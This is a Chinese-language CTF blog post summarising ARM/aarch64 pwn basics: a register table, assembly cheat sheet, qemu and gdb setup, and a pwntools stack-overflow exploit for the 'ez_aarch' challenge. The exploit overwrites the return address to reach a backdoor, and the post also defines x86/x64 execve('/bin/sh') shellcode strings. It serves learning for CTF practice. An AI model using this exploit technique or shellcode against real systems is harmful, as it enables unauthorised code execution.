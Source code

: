 ```yaml
---
title: arm异构总结
date: 2022-04-15 22:54:59 +0800
categories:
  - 漏洞利用总结
tags:
  - pwn
  - ctf
permalink: /posts/id=11/
pin: false
---
```

参考文章：

[ ARM架构的pwn题详解___lifanxin的博客](https://blog.csdn.net/A951860555/article/details/116780827)

## Arm/aarch64

aarch64寄存器

| 寄存器  | 位数  | 描述                                                         |
| ------- | :---: | :----------------------------------------------------------- |
| x0-x30  | 64bit | 通用寄存器，如果有需要可以当做32bit使用：WO-W30              |
| FP(x29) | 64bit | 保存栈帧地址(栈底指针)                                       |
| LR(x30) | 64bit | 通常称X30为程序链接寄存器，保存子程序结束后需要执行的下一条指令，**类ret** |
| SP      | 64bit | 保存栈指针,使用 SP/WSP来进行对SP寄存器的访问。               |
| PC      | 64bit | 程序计数器，俗称PC指针，总是指向即将要执行的下一条指令,在arm64中，软件是不能改写PC寄存器的。 |
| CPSR    | 64bit | 状态寄存器                                                   |

![img](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/1117042-e3fabfec65c187f5.png)

```
MOV    X1，X0         ;将寄存器X0的值传送到寄存器X1
ADD    X0，X1，X2     ;寄存器X1和X2的值相加后传送到X0
SUB    X0，X1，X2     ;寄存器X1和X2的值相减后传送到X0

AND    X0，X0，#0xF    ; X0的值与0xF相位与后的值传送到X0
ORR    X0，X0，#9      ; X0的值与9相位或后的值传送到X0
EOR    X0，X0，#0xF    ; X0的值与0xF相异或后的值传送到X0

LDR    X5，[X6，#0x08]        ；ld：load; X6寄存器加0x08的和的地址值内的数据传送到X5
LDP  x29, x30, [sp, #0x10]    ; ldp :load pair ; 一对寄存器, 从内存读取数据到寄存器

STR X0, [SP, #0x8]         ；st:store,str:往内存中写数据（偏移值为正）; X0寄存器的数据传送到SP+0x8地址值指向的存储空间
STUR   w0, [x29, #-0x8]   ;往内存中写数据（偏移值为负）
STP  x29, x30, [sp, #0x10]    ;store pair，存放一对数据, 入栈指令

CBZ  ;比较（Compare），如果结果为零（Zero）就转移（只能跳到后面的指令）
CBNZ ;比较，如果结果非零（Non Zero）就转移（只能跳到后面的指令）
CMP  ;比较指令，相当于SUBS，影响程序状态寄存器CPSR 

B   ;跳转指令，可带条件跳转与cmp配合使用
BL  ;带返回的跳转指令， 返回地址保存到LR（X30）
BLR  ; 带返回的跳转指令，跳转到指令后边跟随寄存器中保存的地址(例：blr    x8 ;跳转到x8保存的地址中去执行)
RET   ;子程序返回指令，返回地址默认保存在LR（X30）
```

详细的汇编建议看这篇[(12条消息) 关于ARM处理器指令集_朽木自雕i的博客-CSDN博客_arm处理器指令](https://blog.csdn.net/qq_45385706/article/details/108478867)

## 做题脚本(以ciscn2021channel为例)

静态编译直接运行

```bash
$ qemu-arm prog
```

动态编译可以用脚本配置

```bash
# pwnarm.sh
$ mkdir lib
$ mv ld-2.31.so ./lib/ld-linux-aarch64.so.1
$ mv libc-2.31.so ./lib/libc.so.6
$ ./qemu-aarch64-static -L ./ ./channel
```

```bash
# dbg
$ file channel
$ set architecture aarch64
$ target remote localhost:1236
```

运行exp后，开新终端使用gdb-multiarch -x dbg

## ez_aarch(aarch64)

![image-20220521214823484](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214823484.png)

![image-20220521214918961](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214918961.png)

![image-20220521214932381](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214932381.png)

题目有后门函数，直接栈溢出覆盖ret

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='aarch64', os='linux')
context.log_level = 'debug'
p=remote("node4.buuoj.cn","26246")
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./stack".split())
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ -g 1236 ./stack".split())
elf = ELF("./stack")
# libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
system = 0x400000093c

sla("Please leave your name:",'a'*0x28+p64(system))
p.interactive()
```

## channel(UAF)

[2021ciscn pwn/misc 复现](https://blog.e4l4.com/posts/ciscn_2021复现/#channelarm架构堆uaf)